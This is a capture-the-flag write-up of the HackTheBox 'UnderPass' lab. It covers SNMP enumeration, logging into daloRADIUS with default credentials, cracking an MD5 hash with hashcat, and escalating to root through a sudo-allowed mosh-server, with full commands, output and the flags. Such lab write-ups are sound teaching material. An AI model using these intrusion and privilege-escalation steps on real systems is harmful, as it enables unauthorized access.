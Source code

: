 ```yaml
---
title: HackTheBox | UnderPass
categories: [CTF]
tags: [CTF, HackTheBox]     # TAG names should always be lowercase
image:
  path: /assets/img/UnderPass/UnderPass.png
---
```


#### Originally posted on Medium on December 22, 2024.

![InfoCard](/assets/img/UnderPass/UnderPass.png)

## Initial Foothold:

As usual, we begin with *Nmap* scan.

```terminal
# Nmap 7.94SVN scan initiated Sun Dec 22 09:37:19 2024 as: nmap -sS -p- -sC -sV -Pn --min-rate 500 -oN mainScan 10.10.11.48
Nmap scan report for 10.10.11.48
Host is up (0.66s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 48:b0:d2:c7:29:26:ae:3d:fb:b7:6b:0f:f5:4d:2a:ea (ECDSA)
|_  256 cb:61:64:b8:1b:1b:b5:ba:b8:45:86:c5:16:bb:e2:a2 (ED25519)
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.52 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernelba
```

I was stuck for more than an hour with the web application because I thought as usual for easy boxes it would be a vulnerable version of an application or something that was not complicated, so in these cases, I returned to recon again and initiated a UDP scan:
```terminal
# Nmap 7.94SVN scan initiated Sun Dec 22 10:28:39 2024 as: nmap -sU -p- --min-rate 500 -oN mainUDPScan underpass.htb
Warning: 10.10.11.48 giving up on port because retransmission cap hit (10).
RTTVAR has grown to over 2.3 seconds, decreasing to 2.0
RTTVAR has grown to over 2.3 seconds, decreasing to 2.0
RTTVAR has grown to over 2.3 seconds, decreasing to 2.0
RTTVAR has grown to over 2.3 seconds, decreasing to 2.0
Nmap scan report for underpass.htb (10.10.11.48)
Host is up (1.5s latency).
Not shown: 64155 open|filtered udp ports (no-response), 1379 closed udp ports (port-unreach)
PORT    STATE SERVICE
161/udp open  snmp

# Nmap done at Sun Dec 22 10:52:44 2024 -- 1 IP address (1 host up) scanned in 1444.89 seconds
```
Let's keep enumerating with *NSE*:

```terminal
# Nmap 7.94SVN scan initiated Sun Dec 22 10:54:56 2024 as: nmap -sU -p 161 --script=snmp* --min-rate 500 -oN mainSNMPScan underpass.htb
Nmap scan report for underpass.htb (10.10.11.48)
Host is up (0.13s latency).

PORT    STATE SERVICE
161/udp open  snmp
| snmp-info:
|   enterprise: net-snmp
|   engineIDFormat: unknown
|   engineIDData: c7ad5c4856d1cf6600000000
|   snmpEngineBoots: 29
|_  snmpEngineTime: 48m47s
| snmp-sysdescr: Linux underpass 5.15.0-126-generic #136-Ubuntu SMP Wed Nov 6 10:38:22 UTC 2024 x86_64
|_  System uptime: 48m50.75s (293075 timeticks)
| snmp-brute:
|_  public - Valid credentials

# Nmap done at Sun Dec 22 10:55:17 2024 -- 1 IP address (1 host up) scanned in 20.60 seconds
```
No, it's not enough, keep enumerating using *snmpbulkwalk*.

```terminal
machiavelli@machiavelli:~# snmpbulkwalk -c public -v2c underpass.htb
iso.3.6.1.2.1.1.1.0 = STRING: "Linux underpass 5.15.0-126-generic #136-Ubuntu SMP Wed Nov 6 10:38:22 UTC 2024 x86_64"
iso.3.6.1.2.1.1.2.0 = OID: iso.3.6.1.4.1.8072.3.2.10
iso.3.6.1.2.1.1.3.0 = Timeticks: (304411) 0:50:44.11
iso.3.6.1.2.1.1.4.0 = STRING: "steve@underpass.htb"
iso.3.6.1.2.1.1.5.0 = STRING: "UnDerPass.htb is the only daloradius server in the basin!"
iso.3.6.1.2.1.1.6.0 = STRING: "Nevada, U.S.A. but not Vegas"
iso.3.6.1.2.1.1.7.0 = INTEGER: 72
iso.3.6.1.2.1.1.8.0 = Timeticks: (0) 0:00:00.00
iso.3.6.1.2.1.1.9.1.2.1 = OID: iso.3.6.1.6.3.10.3.1.1
iso.3.6.1.2.1.1.9.1.2.2 = OID: iso.3.6.1.6.3.11.3.1.1
iso.3.6.1.2.1.1.9.1.2.3 = OID: iso.3.6.1.6.3.15.2.1.1
```
The *STRINGS* `steve@underpass.htb` and `UnDerPass.htb is the only daloradius server in the basin!` are pretty interesting, after some googling about [daloradius server](https://github.com/lirantal/daloradius) we discovered that we can log in to through `http://underpass.htb/daloradius/app/operators/login.php` with the default credentials:
```
Username: administrator
Password: radius
```
The credentials are valid!

![HomePage](/assets/img/UnderPass/Home.png)

The `users list` looks good, let's check it.
We found an MD5 hashed password and a username.

![UsersList](/assets/img/UnderPass/UsersList.png)

Cracking the password using *john* or *hashcat*, I'll go with *hashcat*.

```terminal
machiavelli@machiavelli:~# hashcat -m 0 UserHash /usr/share/wordlists/rockyou.txt

UserHash:crackedPassword

Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 0 (MD5)
Hash.Target......: UserHash
Time.Started.....: Sun Dec 22 11:14:32 2024 (2 secs)
Time.Estimated...: Sun Dec 22 11:14:34 2024 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  2749.2 kH/s (0.14ms) @ Accel:512 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 2985984/14344385 (20.82%)
Rejected.........: 0/2985984 (0.00%)
Restore.Point....: 2983936/14344385 (20.80%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: underwear63 -> unc112886
Hardware.Mon.#1..: Util: 43%
```

Then we can use the username with the cracked password to connect over SSH and capture the user.txt:

```terminal
machiavelli@machiavelli:~# ssh svcMosh@underpass.htb
svcMosh@underpass.htb's password:
Welcome to Ubuntu 22.04.5 LTS (GNU/Linux 5.15.0-126-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Sun Dec 22 06:25:00 PM UTC 2024

  System load:  0.0               Processes:             329
  Usage of /:   95.9% of 3.75GB   Users logged in:       1
  Memory usage: 20%               IPv4 address for eth0: 10.10.11.48
  Swap usage:   0%

  => / is using 95.9% of 3.75GB

Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

Last login: Sun Dec 22 17:40:45 2024 from 10.10.16.18
svcMosh@underpass:~$ ls
user.txt
svcMosh@underpass:~$ cat user.txt
e918adf7ea4b7b3d6b4bc53486f3f81a
```

## Privilege Escalation:

The first thing we check while trying to escalate our privileges is `sudo -l`:

```terminal
svcMosh@underpass:~$ sudo -l
Matching Defaults entries for svcMosh on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User svcMosh may run the following commands on localhost:
    (ALL) NOPASSWD: /usr/bin/mosh-server
svcMosh@underpass:~$
```
When it's your first time facing a new command or service, reading the manual is a good thing:

```terminal
svcMosh@underpass:~$ man /usr/bin/mosh-server

***
DESCRIPTION
       mosh-server is a helper program for the mosh(1) remote terminal application.

       mosh-server binds to a high UDP port and chooses an encryption key to protect the session. It prints both on standard output, detaches from the terminal, and waits for the mosh-client to establish a connection. It will exit if no client has contacted it within 60 seconds.
***
```

Reading the examples will guide you, let's capture the root.txt.

```terminal
svcMosh@underpass:~$ sudo /usr/bin/mosh-server new -p 61113

MOSH CONNECT 61113 QzOh2gOWZ3672OIDhszC0A

mosh-server (mosh 1.3.2) [build mosh 1.3.2]
Copyright 2012 Keith Winstein <mosh-devel@mit.edu>
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>.
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.

[mosh-server detached, pid = 1897]
svcMosh@underpass:~$ MOSH_KEY=QzOh2gOWZ3672OIDhszC0A mosh-client 127.0.0.1  61113

Welcome to Ubuntu 22.04.5 LTS (GNU/Linux 5.15.0-126-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Sun Dec 22 04:18:05 PM UTC 2024

  System load:  0.78              Processes:             336
  Usage of /:   85.4% of 3.75GB   Users logged in:       1
  Memory usage: 13%               IPv4 address for eth0: 10.10.11.48
  Swap usage:   0%

  => / is using 85.4% of 3.75GB

Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

root@underpass:~# ls
root.txt
root@underpass:~# cat root.txt
0a6c39e93e67c280f799bdb732314b4a
root@underpass:~#
```
*Perfect!*
